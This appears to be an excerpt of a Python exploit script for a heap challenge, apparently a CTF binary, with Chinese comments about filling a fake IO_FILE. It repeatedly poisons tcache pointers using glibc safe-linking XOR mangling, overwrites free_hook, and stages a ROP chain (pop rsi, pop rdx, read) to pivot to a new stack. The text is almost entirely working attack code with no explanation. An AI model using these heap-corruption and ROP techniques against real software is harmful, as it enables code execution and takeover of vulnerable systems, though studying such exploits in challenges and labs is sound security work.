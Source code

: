 ```bash
    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x140)>>12) ^ (heap_addr+0x810)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x160)>>12) ^ (heap_addr+0x830)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x180)>>12) ^ (heap_addr+0x850)
    edit(1, p64(poc))
    add(0)
    add(1)
    edit(1, p64(0) + p64(0))
    delete(0)
    add(2)
    add(2)
    edit(2, p64(0)+p64(free_hook))

    # heap_addr + 0x1c0
    add(0)
    add(1)
    delete(0)

    # heap_addr + 0x1c0: 0, pop rsi
    edit(0, p64(0)+p64(pop_rsi)) 
    delete(1)
    poc = ((heap_addr+0x1e0)>>12) ^ (heap_addr+0x1d0)
    edit(1, p64(poc))
    add(0)
    # heap_addr + 0x1e0: 0x100, &read
    edit(0, p64(0x100)+p64(libc.sym['read'])) 
    add(1)
    # heap_addr + 0x1d0: new_stack, pop rdx
    edit(1, p64(new_stack)+p64(pop_rdx)) 

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x220)>>12) ^ (heap_addr+0x1f0)
    edit(1, p64(poc))
    add(1)
    add(2)
```